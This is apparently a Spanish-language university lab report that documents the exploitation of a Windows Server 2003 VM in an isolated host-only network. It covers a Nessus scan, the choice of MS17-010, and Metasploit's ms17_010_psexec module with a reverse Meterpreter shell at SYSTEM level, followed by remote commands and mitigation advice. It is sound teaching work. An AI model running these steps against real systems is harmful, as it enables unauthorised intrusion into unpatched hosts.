










# Parcial 3 — Proceso completo de explotación de una máquina Windows Server 2003

**Estudiante:** Josué Pino Pino
**Correo:** josue.pinop.col@upb.edu.co
**Asignatura:** Seguridad de la Información
**Fecha:** 20 de octubre de 2026

---

## Objetivo

Documentar el proceso completo de explotación de una máquina Windows Server 2003 en un entorno de laboratorio virtualizado, cubriendo las seis etapas solicitadas: configuración del entorno, pruebas de conectividad, análisis de vulnerabilidades con Nessus, selección del CVE, explotación con Metasploit e interacción con la máquina víctima desde la máquina atacante.

### Entorno de trabajo

| Rol | Sistema | Dirección IP |
|-----|---------|--------------|
| Atacante | Kali Linux 2026.2 (64-bit) | 192.168.56.105 |
| Víctima | Windows Server 2003 SP2 (x86) | 192.168.56.104 |

> **Nota sobre el nombre de equipo:** la máquina víctima aparece con el *hostname* `WINDOWS2023`, pero el sistema operativo real es **Windows Server 2003 SP2 (5.2 Build 3790)**, como se confirma más adelante con el comando `sysinfo`. El nombre es solo una etiqueta del equipo.

---

## Etapa 1 — Configuración del entorno de virtualización

Ambas máquinas se montaron en Oracle VirtualBox y se conectaron mediante una **red Host-Only (adaptador solo anfitrión, `vboxnet0`)**, lo que mantiene el laboratorio aislado de la red real y permite la comunicación directa entre atacante y víctima.

**Máquina víctima — Windows Server 2003 (32-bit):**



- Sistema operativo: Windows Server 2003 (32-bit)
- Memoria: 5964 MB · 4 procesadores · disco 20 GB
- Red: Intel PRO/1000 T Server — Adaptador solo anfitrión (`vboxnet0`)

**Máquina atacante — Kali Linux 2026.2:**



- Sistema operativo: Debian 64-bit (Kali Rolling 2026.2)
- Memoria: 2048 MB · 2 procesadores · disco 80 GB
- Red: Intel PRO/1000 MT Desktop — Adaptador solo anfitrión (`vboxnet0`)

---

## Etapa 2 — Pruebas de conectividad

Desde la Kali se verificó la dirección de red propia y la comunicación con la víctima.

**Dirección de la máquina atacante (`ip a`):** la interfaz `eth0` tiene la IP **192.168.56.105**.



**Prueba de conectividad (`ping 192.168.56.104`):** la víctima responde sin pérdida de paquetes, con tiempos inferiores a 1 ms. El valor **TTL=128** es, además, un indicador característico de sistemas Windows.



Con esto se confirma que ambas máquinas están en la misma subred (`192.168.56.0/24`) y se comunican correctamente.

---

## Etapa 3 — Análisis de vulnerabilidades con Nessus

Se ejecutó un escaneo tipo *Basic Network Scan* con Nessus sobre la máquina Windows Server 2003. El reporte identificó un total de 29 hallazgos, con 3 vulnerabilidades críticas y 3 altas, concentradas casi en su totalidad en el servicio **SMB (puerto 445)**.



Vulnerabilidades críticas y altas más relevantes:

| Severidad | Boletín | Descripción |
|-----------|---------|-------------|
| Crítica | MS08-067 | Ejecución remota de código en el servicio Server (RPC/SMB). |
| Crítica | MS09-001 | Vulnerabilidades en SMB con ejecución remota de código. |
| Alta | MS17-010 | Fallas en SMBv1 (familia EternalBlue / WannaCry). |
| Alta | SMB NULL Session | Sesiones anónimas permitidas sin credenciales. |

El reporte confirma además que **SMBv1 está activo** y que el host permite **sesiones nulas (NULL sessions)**, lo que explica su alta exposición.

> **Nota importante sobre esta etapa:** al momento de reanudar el ejercicio, el computador que estaba usando en la sala de computadores de la universidad no quiso prender, por lo que me pasé al computador del lado y continué la práctica allí. Por ese motivo, **el direccionamiento IP del escaneo de Nessus (realizado en el primer equipo) no coincide con el del resto del documento**, ya que toda la práctica se volvió a realizar desde cero en el segundo equipo, excepto el reporte de Nessus, que se reutiliza del primer equipo. El PDF completo del reporte de Nessus se adjunta en el correo entregable.

---

## Etapa 4 — Selección del CVE a trabajar

A partir de los hallazgos de Nessus se seleccionó la familia **MS17-010**, correspondiente al **CVE-2017-0144**, como vulnerabilidad de trabajo.

**Justificación de la elección:**

- Es una vulnerabilidad crítica sobre el servicio **SMB (puerto 445)**, la principal superficie de ataque del host según Nessus.
- Afecta directamente a **SMBv1**, que el reporte confirmó activo en la víctima.
- A diferencia del módulo `eternalblue` (que solo soporta objetivos de 64 bits), la familia MS17-010 ofrece la variante **`ms17_010_psexec`**, compatible con la arquitectura **x86** del objetivo.
- Dispone de módulo funcional en Metasploit Framework.

Para localizar el módulo se utilizó el comando **`search eternal blue`**, que lista toda la familia MS17-010, y se seleccionó la opción **`use 10`**, correspondiente a `exploit/windows/smb/ms17_010_psexec`. En la siguiente captura se observa el resultado del `search` y la carga del módulo:



---

## Etapa 5 — Explotación con Metasploit (MSF)

**Inicio de Metasploit Framework (`msfconsole`, v6.4.135):**



Dentro de la consola, el módulo se localizó con `search eternal blue` y se cargó con `use 10` (`ms17_010_psexec`), como se detalló en la Etapa 4.

**Configuración del objetivo (`set RHOSTS 192.168.56.104`) y ejecución (`exploit`):**



**Configuración de la conexión inversa (`set LHOST 192.168.56.105`) y explotación exitosa:**



El punto clave de esta etapa fue configurar correctamente el parámetro **`LHOST`** con la dirección de la máquina atacante (`192.168.56.105`), de modo que el *payload* pudiera establecer la conexión inversa de vuelta a la Kali. La secuencia de la explotación muestra:

```
[+] Overwrite complete... SYSTEM session obtained!
[*] Sending stage (199238 bytes) to 192.168.56.104
[*] Meterpreter session opened (192.168.56.105:4444 -> 192.168.56.104:1030)
meterpreter >
```

El mensaje **`Meterpreter session opened`** confirma que la explotación fue exitosa y que se obtuvo una sesión interactiva con privilegios SYSTEM sobre la víctima.

---

## Etapa 6 — Interacción con la máquina víctima

Con la sesión Meterpreter abierta, se ejecutaron comandos directamente sobre la máquina víctima desde la atacante, demostrando el control total del sistema:



- **`mkdir JosuePrueba.txt`** → se creó un directorio en la víctima (`Creating directory: JosuePrueba.txt`), evidenciando capacidad de escritura sobre el sistema de archivos remoto.
- **`sysinfo`** → devolvió la información del equipo comprometido, confirmando el acceso:

```
Computer        : WINDOWS2023
OS              : Windows Server 2003 (5.2 Build 3790, Service Pack 2).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```

Esto demuestra que se logró **interacción completa con la máquina víctima desde la máquina atacante**, cumpliendo la última etapa del ejercicio.

---

## Conclusiones

- Se montó correctamente un laboratorio aislado con dos máquinas virtuales (Kali Linux atacante y Windows Server 2003 víctima) sobre una red Host-Only.
- El análisis con Nessus identificó al Windows Server 2003 como un objetivo altamente vulnerable, con el servicio SMBv1 como principal superficie de ataque.
- Se seleccionó el CVE-2017-0144 (MS17-010) y se explotó con éxito mediante el módulo `ms17_010_psexec` de Metasploit, teniendo en cuenta la arquitectura x86 del objetivo.
- Se obtuvo una sesión Meterpreter con privilegios SYSTEM y se demostró la interacción con la víctima mediante la creación de un directorio y la consulta de información del sistema.

### Recomendaciones de mitigación

- Migrar el sistema operativo: Windows Server 2003 está fuera de soporte desde 2015 y no recibe parches de seguridad.
- Desactivar SMBv1, raíz de la mayoría de los hallazgos críticos.
- Bloquear los puertos 445 y 139 desde el exterior mediante firewall.
- Deshabilitar las sesiones nulas (NULL sessions).
- Segmentar la red y aislar los sistemas heredados que no puedan actualizarse.

---

*Informe elaborado por Josué Pino Pino — Parcial 3, Seguridad de la Información. 20 de octubre de 2026.*
